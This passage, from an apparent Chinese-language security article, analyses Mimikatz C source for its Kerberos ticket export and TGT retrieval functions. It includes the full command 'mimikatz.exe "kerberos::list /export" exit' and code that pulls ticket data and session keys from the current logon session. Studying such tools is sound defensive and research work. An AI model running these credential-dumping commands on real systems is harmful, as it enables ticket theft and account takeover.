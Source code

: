 ```cpp
                }
                LocalFree(base64);
            }
        }
    }
    else if((hFile = CreateFile(fileName, GENERIC_WRITE, 0, NULL, CREATE_ALWAYS, 0, NULL)) && hFile != INVALID_HANDLE_VALUE)
    {
        if(WriteFile(hFile, data, lenght, &dwBytesWritten, NULL) && (lenght == dwBytesWritten))
            reussite = FlushFileBuffers(hFile);
        CloseHandle(hFile);
    }
    return reussite;
}
```

这里，如果 isBase64InterceptOutput 为 TRUE，则通过 CryptBinaryToString 函数将票据数据转换为 Base64 编码后的字符串并打印出来。但是 isBase64InterceptOutput 默认为 FALSE，因此会调用 WriteFile 函数将票据数据写入文件。

最终执行效果如下：

```cmd
mimikatz.exe "kerberos::list /export" exit
```

![image-20230511160303887](https://shs3.b.qianxin.com/attack_forum/2023/05/attach-1b298eb9615349af4d70bea579df046310b43faa.png)

Kerberos::tgt
-------------

Mimikatz 的 `kerberos::tgt` 功能可以从当前用户会话中检索票据授予票据。

根据 `ask` 功能的名称找到其入口函数 kuhl\_m\_kerberos\_tgt：

- kerberos\\kuhl\_m\_kerberos.c

```cpp
NTSTATUS kuhl_m_kerberos_tgt(int argc, wchar_t* argv[])
{
    NTSTATUS status, packageStatus;
    KERB_RETRIEVE_TKT_REQUEST kerbRetrieveRequest = { KerbRetrieveTicketMessage, {0, 0}, {0, 0, NULL}, 0, 0, KERB_ETYPE_NULL, {0, 0} };
    PKERB_RETRIEVE_TKT_RESPONSE pKerbRetrieveResponse;
    DWORD szData;
    KIWI_KERBEROS_TICKET kiwiTicket = { 0 };
    DWORD i;
    BOOL isNull = FALSE;

    status = LsaCallKerberosPackage(&kerbRetrieveRequest, sizeof(KERB_RETRIEVE_TKT_REQUEST), (PVOID*)&pKerbRetrieveResponse, &szData, &packageStatus);
    kprintf(L"Kerberos TGT of current session : ");
    if (NT_SUCCESS(status))
    {
        if (NT_SUCCESS(packageStatus))
        {
            kiwiTicket.ServiceName = pKerbRetrieveResponse->Ticket.ServiceName;
            kiwiTicket.TargetName = pKerbRetrieveResponse->Ticket.TargetName;
            kiwiTicket.ClientName = pKerbRetrieveResponse->Ticket.ClientName;
            kiwiTicket.DomainName = pKerbRetrieveResponse->Ticket.DomainName;
            kiwiTicket.TargetDomainName = pKerbRetrieveResponse->Ticket.TargetDomainName;
            kiwiTicket.AltTargetDomainName = pKerbRetrieveResponse->Ticket.AltTargetDomainName;
            kiwiTicket.TicketFlags = pKerbRetrieveResponse->Ticket.TicketFlags;
            kiwiTicket.KeyType = kiwiTicket.TicketEncType = pKerbRetrieveResponse->Ticket.SessionKey.KeyType; // TicketEncType not in response
            kiwiTicket.Key.Length = pKerbRetrieveResponse->Ticket.SessionKey.Length;
            kiwiTicket.Key.Value = pKerbRetrieveResponse->Ticket.SessionKey.Value;
            kiwiTicket.StartTime = *(PFILETIME)&pKerbRetrieveResponse->Ticket.StartTime;
```